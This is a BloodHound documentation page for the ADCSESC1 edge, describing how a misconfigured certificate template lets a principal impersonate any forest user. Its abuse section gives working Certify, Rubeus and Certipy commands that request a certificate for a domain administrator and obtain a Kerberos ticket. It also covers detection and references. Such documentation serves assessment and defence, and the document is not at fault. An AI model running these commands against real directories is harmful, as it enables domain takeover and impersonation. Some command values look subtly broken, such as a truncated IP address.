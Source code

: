 ---
title: ADCSESC1
description: "This edge indicates that the principal has permission to enroll on one or more certificate templates, allowing them to specify an alternate subject name and use the certificate for authentication. They also have enrollment permission for an enterprise CA with the necessary templates published."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


This enterprise CA is trusted for NT authentication in the forest, along with the certificate chain up to the root CA certificate. This setup lets the principal enroll certificates for any AD forest user or computer, enabling authentication and impersonation of any AD forest user or computer without their credentials.

## Abuse Info

### Windows

Step 1: Use Certify (2.0) to request enrollment in the affected template, specifying the affected certification authority and target principal to impersonate:

```bash
Certify.exe request --ca rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA --template ESC1 --upn ForestRootDA --sid S-1-5-21-2697957641-2271029196-387917394-500
```

The issued certificate (PFX) is printed to the console in base64 form. Copy the full base64 blob (including BEGIN/END lines) for the next step.

Step 2: With Rubeus, use the base64-encoded certificate to authenticate to the domain and request a TGT, specifying the identity you intend to impersonate:

```bash
Rubeus asktgt /user:ForestRootDA /domain:forestroot.com /certificate:<cert base64> /ptt
```

Step 3 (optional): Verify the TGT by listing it with klist:

```bash
klist
```

### Linux

 Step 1: Use Certipy to request enrollment in the affected template, specifying the target
enterprise CA and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1 -upn administrator@corp.local
```

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate
created in Step 1 and the IP of a domain controller:

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.12
```
## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Ce)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)
* https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-ser
